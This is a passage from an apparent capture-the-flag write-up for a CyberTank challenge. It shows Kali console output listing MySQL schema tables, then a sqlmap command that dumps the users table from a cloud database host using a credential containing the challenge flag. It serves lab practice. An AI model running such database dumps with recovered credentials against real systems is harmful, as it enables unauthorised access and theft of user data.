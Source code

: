 ```console
| PARTITIONS                            |
| PLUGINS                               |
| PROCESSLIST                           |
| PROFILING                             |
| RDS_EVENTS_THREADS_WAITS_CURRENT      |
| RDS_PROCESSLIST                       |
| REFERENTIAL_CONSTRAINTS               |
| ROUTINES                              |
| SCHEMATA                              |
| SCHEMA_PRIVILEGES                     |
| SESSION_STATUS                        |
| SESSION_VARIABLES                     |
| SPATIAL_REF_SYS                       |
| STATISTICS                            |
| SYSTEM_VARIABLES                      |
| TABLES                                |
| TABLESPACES                           |
| TABLE_CONSTRAINTS                     |
| TABLE_PRIVILEGES                      |
| TABLE_STATISTICS                      |
| TRIGGERS                              |
| USER_PRIVILEGES                       |
| USER_STATISTICS                       |
| VIEWS                                 |
| user_variables                        |
+---------------------------------------+

Database: cybertank
[1 table]
+---------------------------------------+
| users                                 |
+---------------------------------------+

[19:34:52] [INFO] connection to mysql server database-cybertank-tst.cj6jw4xocthe.eu-central-1.rds.amazonaws.com:3306 closed

[*] shutting down at 19:34:52

root@kali:/media/sf_CTFs/hackazon/CyberTank_Website# sqlmap -d "mysql://cyber_ro:CTF{6d4efb805865d7fcc6fec9da232044a7w}@database-cybertank-tst.cj6jw4xocthe.eu-central-1.rds.amazonaws.com:3306/cybertank" --dump -T users
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.2.5#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 19:35:20

[19:35:20] [INFO] connection to mysql server database-cybertank-tst.cj6jw4xocthe.eu-central-1.rds.amazonaws.com:3306 established
[19:35:20] [INFO] testing MySQL
[19:35:20] [INFO] resumed: [[u'1']]...
[19:35:20] [INFO] confirming MySQL
[19:35:20] [INFO] resumed: [[u'1']]...
[19:35:21] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
```